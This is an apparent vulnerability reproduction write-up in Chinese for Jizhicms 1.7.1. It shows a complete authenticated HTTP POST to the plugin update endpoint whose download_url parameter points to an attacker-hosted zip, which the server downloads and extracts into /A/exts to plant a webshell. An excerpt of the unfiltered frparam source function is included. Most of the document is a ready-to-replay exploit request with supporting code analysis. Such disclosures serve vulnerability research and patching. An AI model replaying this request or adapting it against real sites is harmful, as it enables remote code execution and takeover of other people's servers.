 Jizhicms 1.7.1 后台getshell
===========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    POST /admin.php/Plugins/update.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 80
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Plugins/
    Cookie: PHPSESSID=tq79jo8omp5s72lq101noj48lq

    action=start-download&filepath=msgphone&download_url=http://www.0-sec.org/test/a.zip

攻击者可以控制download\_url传入参数的值，从而传入被压缩的可执行脚本，然后该压缩包会被解压并传入到特定位置，实现getshell所以只需要攻击者在自己控制的网站上压缩可执行脚本然后将url赋值给download\_url即可实现任意文件上传定位下函数位置，该函数位于/A/c/PluginsController.php下的update函数![1.png](./resource/Jizhicms1.7.1后台getshell/media/rId24.png)传进来的值通过frparam函数处理之后变赋值给了remote\_url跟进到frparam函数函数中，该函数位于/FrPHP/lib/Controller.php中

    public function frparam($str=null, $int=0,$default = FALSE, $method = null){

            $data = $this->_data;
            if($str===null) return $data;
            if(!array_key_exists($str,$data)){
                return ($default===FALSE)?false:$default;
            }
            if($method===null){
                $value = $data[$str];
            }else{
                $method = strtolower($method);
                switch($method){
                    case 'get':
                    $value = $_GET[$str];
                    break;
                    case 'post':
                    $value = $_POST[$str];
                    break;
                    case 'cookie':
                    $value = $_COOKIE[$str];
                    break;
                }
            }
            return format_param($value,$int);
        }

该函数并没有对传入的值进行过滤，只是简单的从data数组里取数据然后继续回到update函数，在获取到了remote\_url的值后便进行了下载以及解压缩的操作![2.png](./resource/Jizhicms1.7.1后台getshell/media/rId25.png)![3.png](./resource/Jizhicms1.7.1后台getshell/media/rId26.png)最后解压到的文件夹为/A/exts![4.png](./resource/Jizhicms1.7.1后台getshell/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7775\#toc-3
